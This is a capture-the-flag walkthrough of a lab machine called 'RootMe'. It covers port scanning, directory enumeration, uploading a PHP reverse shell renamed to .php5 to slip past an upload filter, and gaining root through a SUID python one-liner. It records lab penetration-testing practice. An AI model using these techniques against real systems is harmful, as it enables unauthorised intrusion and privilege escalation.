






# RootMe 

## Let's start !!

First, we set an IP variable

````````
export IP=10.10.215.168 
````````

### Rustscan 
As always we start with rustscan I like its style and it instantly gives a response after discovering an open port. The drawback is that we cannot scan it for UDP.
````````
rustscan $IP -- -A -sC -sV -oN nmap.txt

````````

````````
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.27.84:22
Open 10.10.27.84:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -A -sC -sV -oN nmap.txt -vvv -p 22,80 10.10.27.84

Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-17 23:59 IST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:59
Completed NSE at 23:59, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 23:59
Completed NSE at 23:59, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 23:59
Completed NSE at 23:59, 0.00s elapsed
Initiating Ping Scan at 23:59
Scanning 10.10.27.84 [4 ports]
Completed Ping Scan at 23:59, 0.27s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 23:59
Completed Parallel DNS resolution of 1 host. at 23:59, 0.11s elapsed
DNS resolution of 1 IPs took 0.11s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 23:59
Scanning 10.10.27.84 [2 ports]
Discovered open port 22/tcp on 10.10.27.84
Discovered open port 80/tcp on 10.10.27.84
Completed SYN Stealth Scan at 23:59, 0.29s elapsed (2 total ports)
Initiating Service scan at 23:59
Scanning 2 services on 10.10.27.84
Completed Service scan at 23:59, 6.58s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.27.84
Retrying OS detection (try #2) against 10.10.27.84
Initiating Traceroute at 23:59
Completed Traceroute at 23:59, 0.29s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 23:59
Completed Parallel DNS resolution of 2 hosts. at 23:59, 0.11s elapsed
DNS resolution of 2 IPs took 0.11s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.27.84.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:59
Completed NSE at 00:00, 9.64s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 1.06s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
Nmap scan report for 10.10.27.84
Host is up, received reset ttl 63 (0.27s latency).
Scanned at 2022-05-17 23:59:41 IST for 24s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=5/18%OT=22%CT=%CU=42429%PV=Y%DS=2%DC=T%G=N%TM=6283E9AD%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)
SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%TS=A)
OPS(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)
WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
ECN(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 31.308 days (since Sat Apr 16 16:35:54 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   225.04 ms 10.8.0.1
2   284.19 ms 10.10.27.84

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.28 seconds
           Raw packets sent: 61 (4.280KB) | Rcvd: 43 (3.164KB)

````````

### gobuster (HTTP 80)

````````
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,js,html -t 50 | tee gobuster.log

````````

````````
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.215.168/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,zip,js,html
[+] Timeout:                 10s
===============================================================
2022/05/18 00:13:20 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.215.168/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.215.168/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.10.215.168/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.215.168/panel/]     
Progress: 1323366 / 1323366 (100%)                                           

````````
in panal we have upload function lets exploit it.

## Getting an shell



first we coppey an php reverse shell for our local kali machin and add our ip and port.

````````
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
````````


Now, its time to upload it....



Failed,Its dose not allow .php. so what can we do? Lets change .php to some thing else.



so php5 is allow. lets rename .php to .php5 and upload it. 

YESSS!! we have sucessfully uplaoded it. Now go on /uploads and see it your self...



Now, we wll run it and get our reverseshell....




## Getting user.txt

````````
(remote) www-data@rootme:/$ cd var/www/html/
(remote) www-data@rootme:/var/www/html$ ls
Website.zip  css  index.php  js  panel	uploads
(remote) www-data@rootme:/var/www/html$ cat ../user.txt 
{REDACTED}
(remote) www-data@rootme:/var/www/html$ 

````````

## Privilage esculation 


- SUID :- /usr/bin/python

````````
(remote) www-data@rootme:/tmp$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
````````

````````
\[\](remote)\[\] \[\]root@rootme\[\]:\[\]/tmp\[\]$ cd /root	
\[\](remote)\[\] \[\]root@rootme\[\]:\[\]/root\[\]$ ls
root.txt
\[\](remote)\[\] \[\]root@rootme\[\]:\[\]/root\[\]$ cat root.txt
{REDACTED}
\[\](remote)\[\] \[\]root@rootme\[\]:\[\]/root\[\]$ 

````````

- DONE
